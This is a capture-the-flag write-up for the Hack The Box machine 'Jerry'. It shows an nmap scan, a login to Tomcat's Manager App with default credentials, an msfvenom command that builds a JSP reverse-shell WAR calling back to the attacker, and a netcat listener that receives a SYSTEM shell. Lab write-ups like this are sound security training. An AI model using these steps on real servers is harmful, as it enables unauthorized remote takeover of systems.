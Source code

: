 # Jerry

![image](https://user-images.githubusercontent.com/10210108/79371021-ad845280-7f21-11ea-86cf-e5a626dd47d1.png)

## Overview
Jerry is a Windows Server 2012 R2 box running Apache Tomcat 7.0.88.  The 401 unauthorized error message disclosed the username and password needed to log into the admin utility. Once there I was able to upload a reverse shell in web archive (war) format. Once executed I received a shell as 'nt authority/system'

## Enumeration

**Software**

* Apache Tomcat 7.0.88
* Microsoft Windows Server 2012 R2 Standard 

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.95 -oN /mnt/data/boxes/jerry/_full_tcp_nmap.txt
```

* 8080/tcp

## Steps (user)


## Steps (root/system)

I started by browsing to http://10.10.10.95:8080 which showed the default "If you're seeing this, you've successfully installed Tomcat. Congratulations!" page. I clicked on Server Status and was prompted for a password. After trying default passwords (tomcat/tomcat) without success, I clicked cancel and was shown a 401 unauthorized page.

![image](https://user-images.githubusercontent.com/10210108/82158138-03675580-9854-11ea-9824-96f17e8b7825.png)

On that page I noticed an example that referenced a username and password of tomcat/s3cret. I tried that username/password combo and was able to successfully access the Server Status and Manager App pages.

![image](https://user-images.githubusercontent.com/10210108/82158474-1bd86f80-9856-11ea-8056-a6d59c8ada15.png)

On the Manager App page, there is an option to deploy a WAR file which MSFVenom supports as a payload format.

> A WAR file is a compressed package containing Java-based web components and applications that are run on a web server. It is formatted the same way as a .JAR file, but includes additional information that tells the application server which Java servlet class to run.

I created a reverse shell selecting a java payload and output the file to rshell.war

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=4200 -f war > rshell.war
```

I then uploaded rshell.war via the Manager App (http://10.10.10.95:8080/manager/html)

```
Click "Browse"
Browse to rshell.war
Click Deploy
```

/rshell was now listed under applications. I created a reverse netcat listener (nc -lvnp 4200) and clicked the link and received a callback with a shell as 'nt authority\system'

![image](https://user-images.githubusercontent.com/10210108/82158985-51cb2300-9859-11ea-92ed-b08cc57bd32b.png)


